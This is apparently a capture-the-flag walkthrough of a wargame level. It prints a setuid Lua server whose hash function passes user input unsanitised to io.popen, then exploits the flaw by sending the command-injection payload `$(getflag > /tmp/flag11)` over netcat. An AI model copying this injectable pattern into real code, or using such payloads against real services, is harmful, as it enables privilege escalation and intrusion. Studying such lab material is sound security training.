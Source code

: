 We start once again by listing the files in the current directory:
```bash
ls -la
```
Output:
```bash
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

Let's take a look at the level11.lua script:
```bash
cat level11.lua
```
Output:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()
  data = string.sub(data, 1, 40)
  return data
end
while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

Analyzing the code, we notice that the script creates a server on port 5151 and has a hash function that uses `io.popen()`. This function is vulnerable to **command injection** as it directly concatenates user input with a shell command:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Let's exploit this vulnerability by connecting to the server and injecting a command that will execute `getflag` and redirect its output to a file we can read:

```bash
nc 127.0.0.1 5151
```

When prompted for a password, we inject our command `$(getflag > /tmp/flag11)`

The server will execute:
```bash
echo $(getflag > /tmp/flag11) | sha1sum
```

This will:
1. Execute `getflag` with the privileges of flag11 (due to the setuid bit)
2. Redirect the output to `/tmp/flag11`
3. Echo an empty string to sha1sum

Now let's check the content of our output file:
```bash
cat /tmp/flag11
```

And this way we get our next flag!